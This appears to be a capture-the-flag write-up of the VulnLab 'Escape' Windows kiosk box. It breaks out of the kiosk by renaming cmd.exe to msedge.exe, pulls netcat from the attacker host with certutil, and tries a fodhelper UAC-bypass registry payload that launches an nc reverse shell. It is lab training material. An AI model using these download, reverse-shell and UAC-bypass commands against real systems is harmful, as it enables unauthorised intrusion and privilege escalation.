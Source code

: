 ```yaml
---
title: VulnLab -- Escape Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [kiosk]
image:
    path: images/escape-banner.png
---
```

# Escape

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Escape** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/escape-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 3389 --min-rate=1000 10.10.120.101
```

![image.png](../images/escape.png)

Now let’s try to connect to the RDP.

```bash
xfreerdp /v:10.10.120.101 -sec-nla
```

![image.png](../images/escape%201.png)

> Notice that the message say to connect to the machine using
username: KisokUser0
password: no password
> 

so let’s connect to the RDP using the user KioskUser0

![image.png](../images/escape%202.png)

Now let’s go and open the edge bowser and search for the C directory

```bash
file:///c:/
```

![image.png](../images/escape%203.png)

notice that there is a folder named admin so let’s navigate to it!

![image.png](../images/escape%204.png)

notice that we got the password of the administrator.

Now let’s get the user flag by navigating to the users folder

```bash
file:///C:/Users/kioskUser0/Desktop/user_07eb46.txt
```

![image.png](../images/escape%205.png)

Now let’s get the admin password using the Remote Desktop Plus application.

Now let’s import the profile.xml to the application

![image.png](../images/escape%206.png)

Now let’s open BulltesPassView that will help recovering the password from bullet format

![image.png](../images/escape%207.png)

> Now notice that now know that got the credentails
username: admin
password: Twisting3021
> 

Now let’s go back to Microsoft edge and retrieve the cmd

```bash
file:///C:/Windows/System32/cmd.exe
```

![image.png](../images/escape%208.png)

now let’s view it in the download file

![image.png](../images/escape%209.png)

now rename the executable to msedge as this is allowed application to run

![image.png](../images/escape%2010.png)

Now let’s run it

![image.png](../images/escape%2011.png)

As we see we got access to the cmd!

Now let’s use run as and open cmd as the admin user

```bash
runas /user:Escape\admin cmd.exe
```

![image.png](../images/escape%2012.png)

now let’s see our new user.

![image.png](../images/escape%2013.png)

Now let’s see our privileges

```bash
whoami /all
```

![image.png](../images/escape%2014.png)

> Since we are in admin group admin medium integrity level we can do UAC bypass and gain full access
> 

First let’s transfer net cat.

```bash
certutil -urlcache -f http://10.8.5.233/nc.exe nc.exe
```

![image.png](../images/escape%2015.png)

Now let’s go and abuse the UAC and get full access reverse shell.

Start a listener

```bash
nc -lvnp 1337 
```

![image.png](../images/escape%2016.png)

Now let’s gain a shell

```bash
powerhsell -ep bypass
```

and paste this PowerShell script in the terminal

```bash
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Users\admin\Desktop\nc.exe 10.8.5.233 1337 -e cmd.exe" -Force
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

![image.png](../images/escape%2017.png)

Now let’s go back to our listener.

![image.png](../images/escape%2018.png)

we didn’t get anything 😞

But! we can run cmd to get admin privilege 

```bash
Start-Process -Verb runas cmd.exe
```

![image.png](../images/escape%2019.png)

Now let’s see our privs.

```bash
whoami /priv
```

![image.png](../images/escape%2020.png)

and we got the full access

now let’s go to the root directory

```bash
cd c:\users\administrator\desktop
```

![image.png](../images/escape%2021.png)

amazing we got the root flag!

![image.png](../images/escape%2022.png)

That’s it for the **Escape** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT